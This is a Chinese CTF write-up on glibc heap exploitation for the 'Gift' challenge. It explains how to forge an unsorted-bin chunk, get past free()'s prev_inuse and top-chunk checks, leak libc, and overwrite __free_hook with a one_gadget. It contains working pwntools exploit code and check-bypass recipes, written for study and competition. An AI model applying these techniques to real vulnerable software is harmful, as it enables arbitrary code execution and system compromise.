# fake_chunk与top chunk衔接的问题-先知社区

> **来源**: https://xz.aliyun.com/news/18312  
> **文章ID**: 18312

---

# 伪造unsorted bin来释放时 ，与top chunk的衔接问题

## 概述：

1. 在泄漏libc时一般需要将chunk释放进入unsorted bin，但是有些题目不会给适合unsorted bin大小的chunk，这就要到修改原chunk字段size、或者伪造size字段，但是在伪造size字段后已分配的chunk如果不能衔接到top chunk的话，程序就会报错，那么要如何衔接到top chunk？。

1. 一般是在(伪造的chunk地址+改后size大小)这个地址处**填上一个**size值，来衔接到top chunk。**size值=top chunk地址-(伪造的chunk地址+改后size大小)地址** ，即top chunk地址 - 要填的size值的地址。

## 例题：[巅峰极客 2022]Gift

题目地址：[[巅峰极客 2022]Gift | NSSCTF](https://www.nssctf.cn/problem/2514)

### 思路：

1. 修改next指向堆上的地址，在该地址处伪造一个属于unsortedbin的chunk，释放获取libc地址。

1. 再申请0x60大小的chunk（由于tcache中没有，会到unsorted bin中取），从而造成overlaping，修改next指针，申请到free\_hook，填入one\_gadget获取shell。

### 分析：

1. 题目给了add、free、show外加一个后门函数bargain(可以修改next指针，但是只能修改低4个字节，不能8个字节全改)。add函数只能申请10次，只能申请两种大小的chunk，所以常规的填满tcache方案基本不可行：分析得到申请的chunk结构体：

1. free函数存在UAF，可以结合show函数来泄漏libc地址：

1. show函数输出结构体中的内容：

1. 只能使用一次的后门函数，可以用来修改next指针，但是只能修改低4字节：

### 利用：

1. 在相对靠近下一个chunk的位置，伪造大小为0x451的chunk，用于衔接top chunk的size的**位置和大小**会在最后细讲：

```
# 泄漏libc地址
payload = p64(0)*21 + p64(0x451) + p64(0x0)+p64(0xf0)
add(1,payload)  #0
add(1,b"FFFF")  #1 
add(1,b"FFFF")  #2
add(1,b"FFFF")  #3   
add(1,p64(0)*6*2 + p64(0)*11 + p64(0x41))  #4 用于衔接top chunk
```

size填充：

1. free两个chunk，然后修改next指针指向刚才伪造的chunk：

```
free(0)
free(1)

# 泄漏libc地址
p.sendlineafter(b':
',b'5')
p.sendlineafter(b'?',str(1).encode())
p.sendlineafter(b'How much?',str(np.uint32(-0xc0)).encode())
```



1. 申请拿到伪造的chunk，然后释放进入unsorted bin，泄漏libc地址：

```
add(1,b"GGGGGGG")  #5
add(1,b"JJJJJJJ")  #6
free(6)
show(6)
p.recvuntilb(b"cost: ")
addr = eval(p.recv(15))
print(addr)
success("main_arena_unsortbin_addr==>"+hex(addr))
main_arena_offset = libc.symbols["__malloc_hook"]+0x10
success("main_arena_offset==>"+hex(main_arena_offset))
libc_base = addr-(main_arena_offset+0x60)
success("libc_addr==>"+hex(libc_base))

system_addr = libc_base+libc.sym["system"]
free_hook_addr = libc_base+libc.sym["__free_hook"]
success("system_addr==>"+hex(system_addr))
success("free_hook_addr==>"+hex(free_hook_addr))
```

1. 最后，释放两个0x110chunk（第二次释放的必须是chunk1，后面要利用overlaping来修改他的next指针），再申请一个0x70的chunk(会从刚刚释放的unsorted bin中拿)造成overlaping，修改next指针指向**free\_hook-0x10**，最后用one\_gadget填入即可：

```
#任意地址申请chunk 申请到free_hook
# 修改next 指向free_hook-0x10
free(2)
free(1)
add(2,p64(0)*7 + p64(0x111) + p64(free_hook_addr-0x10))  #4   
add(1,b"aaaa")  #8

#修改free_hook 写入ona_gadget
add(1,p64(libc_base+0x4f302))  #9
free(8)
p.sendline(b"cat flag")
p.interactive()
```



### size填充位置和大小确定：

1. 位置：**伪造的chunk地址 + 伪造的size** size大小：**top chunk地址 - 前面计算得到的size填充的位置**

1. 修改一下填充的size大小 ==> 0x30，此时free伪造的chunk会报错，调试到报错位置看看具体因为什么报错：可以看到报错 **corrupted size vs. prev\_size** 说明prev\_size错误，为什么会报这个错误呢，下面分析报错位置前面的汇编指令：free+997地址处的比较指令出现的错误，其中r15寄存器是通过**free的chunk地址+其size地址得到** ，也就是free的chunk的**上一个chunk** （高地址）这里假设该地址的chunk为chunk￥：为什么会与chunk ￥的上一个chunk的prev\_size字段上的值比较呢，我们知道当前chunk的prev\_size字段只有在当前chunk的下一个chunk(这里指低地址处)被释放时（当前chunk的prev\_inuse位为0）才会启用。这里将chunk ￥的上一个chunk的prev\_size字段使用了，说明程序已经判断chunk￥已经被释放，但是我们根本没有释放chunk ￥，程序是如何判断的呢？其实程序前面已经**根据chunk ￥的上一个chunk的prev\_inuse位来判断chunk ￥释放被释放** ：所以程序已经确定了chunk￥被释放，然后才会调用下一个chunk的prev\_size字段值（该字段可以用来记录上一个chunk的大小，这里就记录了chunk￥的大小，应该与其size值相同）现在如果在**程序判断chunk￥已经被释放的情况下**，我们将chunk￥的下一个chunk的prev\_size字段强制赋值位chunk￥的size大小（绕过这个cmp检查），这样会发生什么？

add(1,p64(0)\*6\*2 + p64(0)\*11 + p64(0x31) + p64(0)\*4 + p64(0x30)) #4

发现程序在free + 1011的位置报了段错误，原因是访问**地址rdx+0x18 = 0x18** 时程序在地址0x18处的地址根本不存在，分析前面为rdx赋值操作，rdx=chunk￥->fd；rsi=chnk￥->bk（寻址到chunk￥的前后两个chunk），说明此时正在进行unorted bin合并时的检查，检查链表上chunk￥的完整性。但是我们的chunk￥本来就没有释放过，检查肯定就不能通过：程序合并chunk￥的原因是前面判断了chunk￥已经被释放，如果我们让前面判断chunk￥释放不成立呢（即让chunk￥的下一个chunk的prev\_inuse位为1），是不是能绕过检查。这里只需要让&chunk￥ + size + 8处的值为1即可，并且前面伪造的chunk￥的下一个chunk的prev\_size也不会其作用（因为chunk￥没被释放时下一个chunk的prev\_size位不会启用）：

add(1,p64(0)\*6\*2 + p64(0)\*11 + p64(0x31) + p64(0)\*4 + p64(0) + p64(1)) #4

此时，再定位到程序判定chunk￥是否被释放的位置：可见，即使size的大小填充的不合理，没有衔接到top chunk，伪造的chunk也能正常free，只需要将下一个chunk（相对于填充size的chunk）的prev\_inuse位填充位1即可，其实正常衔接到top chunk也是利用了top chunk的prev\_inuse位来判断chunk￥未被释放。我们再极端一点，将chunk￥的size改为0x11，相应下一个chunk的prev\_inuse位仍为1，看看程序是否能正常free掉0x450chunk：

add(1,p64(0)\*6\*2 + p64(0)\*11 + p64(0x11) + p64(0) + p64(1)) #4

正常释放掉0x450chunk,并拿到flag:

1. 继续分析程序，如果将伪造的chunk0x450的size位为0x450，程序会发生什么？：这里伪造的chunk的prev\_size字段没有填充值，但是上面看到是0，所以下面的rax寄存器的值是0。程序判断上一个chunk已经被释放，进而去进行向前合并操作，但是prev\_size值不合理\*\*，如果合理后面还会对上个chunk进行完整性检查\*\* ：所以在unsorted合并时，是会判断prev\_size值与真正的size值是否相同的，这也是为什么要在unlink时要伪造好prev\_size值（上图看到，prev\_size在程序寻找到**相邻被释放的chunk**时也会用）。prev\_size改为填充为0x10，相应上一个chunk的size位改为0x11，程序判断prev\_size与size通过就会去合并上一个chunk：

payload = p64(0)\*19 + p64(0x11) + p64(0x10) + p64(0x450) + p64(0x0)+p64(0xf0)  
add(1,payload) #0

完整性检验，通过后就会合、链入(这里不会通过，当然泄漏堆的地址后，在堆上伪造两个chunk也是能通过校验的)：

## 总结：

1. 释放一个unsorted bin：

1. 首先判断是否与top chunk相邻，相邻则直接回归top chunk

1. 然后，判断与其相邻的chunk是否被释放：

1. 低地址处的chunk，直接用当前待释放的chunk的prev\_inuse判断。

1. 高地址处的chunk，用**下下个chunk**(高地址)的prev\_inuse位来判断。

1. 判断如果相邻的chunk也被释放的话，就会和待释放的chunk合并（要对前面判断的已释放的chunk进行完整性检查）

1. 如果**相邻的chunk都未释放**的话，就不会合并，该chunk直接释放进入unsorted。

1. 伪造属于unsorted bin的chunk时，如果要衔接top chunk，直接在\*\*（伪造的chunk地址 + 伪造的chunk的size）**该地址处填上**0x10 + p64(0) + p64(1)\*\* ，即可绕过判断，正常free掉chunk。
